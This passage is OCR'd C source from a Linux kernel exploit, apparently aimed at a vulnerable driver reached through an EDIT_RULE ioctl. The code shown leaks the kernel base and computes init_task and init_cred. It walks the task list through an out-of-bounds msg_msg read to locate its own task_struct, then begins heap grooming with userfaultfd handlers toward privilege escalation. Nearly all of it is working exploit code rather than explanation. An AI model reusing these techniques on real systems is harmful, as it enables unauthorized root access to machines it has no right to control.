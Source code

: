 ```c
    goto done;
  }
  kernbase = dynamic_kobj_ktype - 0xc41600;
  init_task = kernbase + 0xc124c0;
  init_cred = kernbase + 0xc33060;
  printf("[+] kernbase:\t0x%lx\n", kernbase);
  printf("[+] dynamic_kobj_ktype:\t0x%lx\n", dynamic_kobj_ktype);
  printf("[+] init_task:\t0x%lx\n", init_task);
  printf("[+] init_cred:\t0x%lx\n", init_cred);
  printf("[+} next:\t0x%lx\n", next);
  printf("[+] prev:\t0x%lx\n", prev);

  printf("[*] Task struct searching...\n");

  pid_t pid = getpid();
  printf("[+] self pid:\t%d\n", pid);
  uint64_t cur = init_task;
  ((struct msg_msg *)rule)->m_ts = 0xfd0 + 0x200;
  for (;;) {
    pid_t cur_id = 0;

    bzero(rule->ip, 16);
    ip_value_to_str(cur + 0x290, rule->ip, 16);
    ip_value_to_str((cur + 0x290) >> 32, rule->netmask, 16);
    ioctl(global_fd, EDIT_RULE, rule);
    bzero(dump, 0x1500);
    ret = msgrcv(qid[0], dump, 0x1500, 0, IPC_NOWAIT | MSG_COPY | MSG_NOERROR);
    if (ret < 0) {
      die("[!] Failed to recv message");
    }

    // read pid
    cur_id = *((uint32_t *)((uint64_t)dump + 0x10d8));
    printf("[+] cur:\t0x%lx, pid:\t%d\n", cur, cur_id);
    if (cur_id == pid) {
      task_struct = cur;
      break;
    }
    // next
    cur = *((uint64_t *)((uint64_t)dump + 0xfe0)) - 0x298;
  }
  printf("[+] task_struct:\t0x%lx\n", task_struct);

  printf("[*] Kernel heap fengshui\n");
  printf("[*] Free qid#1 msg\n");
  ret = msgrcv(qid[1], dump, 0x40 - 0x30, 0, IPC_NOWAIT | MSG_NOERROR);
  if (ret < 0) {
    die("[!] Failed to recv message");
  }
  ret = msgrcv(qid[1], dump, 0x1ff8 - 0x30, 0, IPC_NOWAIT | MSG_NOERROR);
  if (ret < 0) {
    die("[!] Failed to recv message");
  }

  printf("[*] Create qid#2 msg & userfaultfd\n");
  target1 = mmap((void *)0x1337000, PAGE_SIZE * 3, PROT_READ | PROT_WRITE,
                 MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
  target2 = mmap((void *)0xdead000, PAGE_SIZE * 3, PROT_READ | PROT_WRITE,
                 MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, 0, 0);
  RegisterUserfault(target1 + PAGE_SIZE, fault_handler_1);
  RegisterUserfault(target2 + PAGE_SIZE, fault_handler_2);

  qid[2] = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
```